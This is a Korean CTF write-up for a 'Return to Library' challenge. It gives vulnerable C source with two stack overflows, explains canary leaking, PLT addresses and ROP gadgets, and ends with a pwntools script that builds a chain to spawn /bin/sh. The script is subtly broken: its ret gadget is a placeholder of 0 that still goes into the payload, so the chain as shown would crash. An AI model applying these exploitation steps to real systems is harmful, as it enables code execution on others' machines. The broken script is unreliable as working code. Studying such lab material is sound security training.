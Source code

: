 Return to Library 라이트업
====================

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

코드를 분석해보면 

**1. "/bin/sh"를 바이너리에 추가**

* rtl.c 코드의 8번째 줄은 바이너리에 /bin/sh 문자열을 추가하기 위해 작성된 코드이다.
* ASLR이 적용되더라도 PIE(Position-Independent Executable)가 적용되지 않으면
  코드 세그먼트와 데이터 세그먼트의 주소는 고정된다.
   /bin/sh의 주소도 고정되어 있다.  

**2. PLT에 system 함수 추가**

* 17번째 줄은 PLT에 system 함수를 추가하기 위해 작성된 코드이다.
* system 함수는 라이브러리 함수이므로 PLT와 GOT는 라이브러리 함수 참조를 위해 사용되는 테이블들이다.
* 처음에는 system 함수의 주소가 resolve되지 않았을 때 함수의 주소를 구하고 실행하는 코드가 작성된다.
* **Return to PLT 공격**의 원리: ASLR이 걸려있더라도 PIE가 적용되어 있지 않다면 PLT의 주소는 고정되어 있다.
  따라서 PLT에 어떤 라이브러리 함수가 등록되어 있다면
   공격자는 해당 함수의 PLT 엔트리로 실행 흐름을 옮김으로써 해당 함수를 실행할 수 있다.
  무작위 주소에 매핑되는 라이브러리의 베이스 주소를 몰라도 이 방법을 통해 라이브러리 함수를 실행할 수 있다.   

**3. 버퍼 오버플로우**

* 코드의 19번째 줄부터 28번째 줄까지는 두 번의 버퍼 오버플로우로 스택 카나리를 우회하고, 
반환 주소를 덮을 수 있도록 작성된 코드이다.


## 익스플로잇


* **카나리 우회:** 첫 번째 입력에서 적절한 데이터를 입력하여 카나리를 우회한다.
* **`rdi` 값을 "/bin/sh"의 주소로 설정 및 셸 획득:**
    * 카나리를 우회한 후, 두 번째 입력으로 반환 주소를 덮을 수 있다.
    * NX으로 인해 `buf`에 셸코드를 주입하고 직접 실행할 수는 없다.
    * **공격에 필요한 정보:**
        * "/bin/sh" 문자열의 주소를 알고 있다.
        * `system` 함수의 PLT 주소를 알고 있다. (이를 통해 `system` 함수를 호출할 수 있다.)
    * **목표:** `/bin/sh`를 호출하여 셸을 획득하는 것이다.
      x86-64 호출 규약에 따르면 `system("/bin/sh")`은 `rdi` 레지스터에
      `"/bin/sh"` 주소가 있는 상태에서 `system` 함수를 호출하는 것과 같다.
    * **Return-Oriented Programming (ROP) 활용:** `/bin/sh`의 주소를 알고
      `system` 함수를 호출할 수 있으므로
       `/bin/sh`의 주소를 `rdi` 값으로 설정할 수 있다면
       `system("/bin/sh")`을 실행할 수 있다. 이를 위해 **리턴 가젯**을 활용해야 한다.


### 리턴 가젯

<img width="687" height="87" alt="image" src="https://github.com/user-attachments/assets/ef210971-58f3-4e5f-a964-d35db3c53de6" />

return gadget이란 ret 명령어로 끝나는 어셈블리 코드 조각을 의미한다. ROPgadget 명령어를 사용해서 위와 같이 가젯을 구할 수 있다.

이 문제에서는 rdi의 값을 `/bin/sh`의 주소로 설정하고 system 함수를 호출해야 한다. 

```
addr of ("pop rdi; ret")   <= return address
addr of string "/bin/sh"   <= ret + 0x8
addr of "system" plt       <= ret + 0x10
```

리턴 가젯을 사용해서 반환 주소와 이후의 버퍼를 이렇게 덮으면 pop rdi로 rdi의 주소를 `/bin/sh` 의 주소로 설정하고 이어지는 ret으로 system 함수를 호출할 수 있다. 


### 익스플로잇 코드


```python
from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

system_plt = e.plt['system']
binsh = 0x400874
pop_rdi = 0x0000000000400596
ret = 0 

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8
payload += p64(ret)  
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)

pause()
p.sendafter(b'Buf: ', payload)

p.interactive()
```


